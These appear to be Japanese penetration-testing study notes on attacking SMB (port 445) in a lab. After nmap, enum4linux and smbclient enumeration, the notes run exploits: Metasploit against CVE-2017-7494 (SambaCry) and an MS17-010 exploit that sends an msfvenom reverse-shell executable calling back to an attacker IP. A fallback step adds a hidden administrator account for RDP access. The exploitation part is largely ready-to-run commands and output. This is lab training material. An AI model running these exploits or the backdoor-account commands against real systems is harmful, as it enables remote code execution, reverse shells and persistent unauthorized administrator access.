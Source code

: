 # SMB(445)

### nmap script

ターゲットシステム上のSMBサービスに接続しOSを特定

```
nmap 10.11.1.220 --script=smb-os-discovery
```



### enum4linux

```bash
# 445が開いているipを見つけてenu4linuxをワンライナーする流れ
sudo nmap -sT -p445 192.168.175.1-254 -oG web-sweep_445.txt
grep open web-sweep_445.txt | cut -d" " -f2

---
192.168.175.9
192.168.175.11
192.168.175.12
192.168.175.13
192.168.175.14
192.168.175.15
192.168.175.20
192.168.175.149
----

vi smb_host.txt
enum4linux smb_host.txt

for i in $(cat smb_host.txt); do enum4linux $i; done
```



### バージョンの設定

Windows Server 2016がデフォルトでSMBv1をサポートしなくなったための対応

* 末尾に設定する

```bash
sudo vi /etc/samba/smb.conf
# 設定内容
min protocol = SMB2

sudo /etc/init.d/smbd restart
```

![image-20230107093832057](img/SMB(445)/image-20230107093832057.png)



### SMBサーバーへの接続

```bash
smbclient -L 127.0.0.1 -U Administrator
```

```
smbclient -L 10.11.1.31
```

-L：リストを表示

-N：パスワードなし

-U：ユーザ名の指定

-P：ポートの指定

```
Unable to connect with SMB1 -- no workgroup available
```

上記が表示された場合には-Lオプションを取り除いて、

```
smbclient //10.10.10.1/Backups
smbclient -N //10.10.10.1/Backups
```



### mountして確認する

前提：SMBサーバーへの接続が確認できていること

```bash
┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/win10_share                                                                  
[sudo] kali のパスワード:

┌──(kali㉿kali)-[~]
└─$ sudo mount -t cifs -o port=4455 //192.168.250.10/Data -o username=Administrator,password=lab /mnt/win10_share

┌──(kali㉿kali)-[~]
└─$ ls -l /mnt/win10_share/                                                                      
合計 1
-rwxr-xr-x 1 root root 4  1月 22  2020 data.txt

┌──(kali㉿kali)-[~]
└─$ cat /mnt/win10_share/data.txt
data
```



### CVE-2017-7494(Sambacry)

Metasploitでの攻略方法しかできていない。githubのコードは動かせなかった。Forumを見ると自分でリバースシェル（ncかつ-eが使えないncでリバースシェル）を作ってPoCを実行するという流れのよう。

https://www.exploit-db.com/exploits/42084

```
msf6 > search samba is_
msf6 > use 0
msf6 exploit(linux/samba/is_known_pipename) > set RHOSTS 10.11.1.146
msf6 exploit(linux/samba/is_known_pipename) > exploit
```



### CVE-2017-0143

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

```bash
git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143.git
```

```bash
pyenv local 2.7.17
pip install impacket 
pip install pycrypto
```

```bash
python checker.py 10.11.1.5

Trying to connect to 10.11.1.5:445
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (32 bit)
lsarpc: Ok (32 bit)
browser: Ok (32 bit)
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f exe > shell.exe
```

```bash
python send_and_execute.py 10.11.1.5 shell.exe 445 browser   
```



#### FWが有効化されていてリバースシェルを張れない場合

ユーザを直接追加しRDPで接続する(3389が開いている前提)

```
service_exec(conn, r'cmd /c net user bill pass /add')
service_exec(conn, r'cmd /c net localgroup administrators bill /add') 
```

![image-20230228170231313](img/SMB(445)/image-20230228170231313.png)


